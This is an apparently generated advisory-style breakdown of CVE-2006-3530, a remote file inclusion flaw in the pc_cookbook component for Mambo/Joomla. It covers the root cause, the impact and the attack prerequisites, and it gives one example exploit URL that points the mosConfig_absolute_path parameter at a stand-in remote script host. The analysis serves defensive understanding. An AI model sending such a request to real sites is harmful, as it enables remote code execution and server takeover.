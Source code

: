 Based on the provided content, here's a breakdown of the vulnerability:

**CVE ID:** CVE-2006-3530

**Root Cause of Vulnerability:** The vulnerability is a Remote File Inclusion (RFI) flaw within the `pc_cookbook` component for Mambo/Joomla. The component fails to properly sanitize user-supplied input, specifically the `mosConfig_absolute_path` parameter, allowing an attacker to include remote files.

**Weaknesses/Vulnerabilities Present:**
*   **Remote File Inclusion (RFI):** The primary vulnerability is that the application includes a file based on a user-controlled URL. This allows the attacker to load and execute arbitrary PHP code from a remote server.
*   **Lack of Input Sanitization:** The component does not validate or sanitize the `mosConfig_absolute_path` parameter before using it in a file inclusion context, making the vulnerability possible.

**Impact of Exploitation:**
*   **Arbitrary Code Execution:** By including a malicious PHP file, the attacker can execute arbitrary code on the server. This can allow the attacker to gain complete control of the web server, modify files, steal data, install malware, or disrupt services.

**Attack Vectors:**
*   **HTTP Request:** The attack is performed via a crafted HTTP GET request to the vulnerable component, specifically `pccookbook.php`. The `mosConfig_absolute_path` parameter is appended to the request with a malicious URL.
*   **Remote Server:** The attacker must have a remote server hosting a malicious PHP script that will be included by the vulnerable application.

**Required Attacker Capabilities/Position:**
*   **Network Access:** The attacker needs to be able to send HTTP requests to the target server hosting the vulnerable component.
*   **Remote Server:** The attacker must have access to a remote server capable of hosting a malicious PHP script accessible via URL.
*   **Knowledge of Vulnerable Component:** The attacker must know the vulnerable component name (`com_pccookbook`) and the vulnerable script location (`pccookbook.php`) within the application.

**Technical Details:**

*   **Vulnerable Component:** `pc_cookbook` version 0.3 and potentially earlier versions.
*   **Vulnerable File:** `pccookbook.php` located in the `components/com_pccookbook/` directory of the Mambo/Joomla installation.
*   **Vulnerable Parameter:** `mosConfig_absolute_path`.
*   **Exploit Example:** `http://[target]/[path]/components/com_pccookbook/pccookbook.php?mosConfig_absolute_path=http://evilscript`

The information provided in exploit-db.com is more detailed than the placeholder CVE description by specifying the vulnerable component, vulnerable file, vulnerable parameter and providing an example exploit.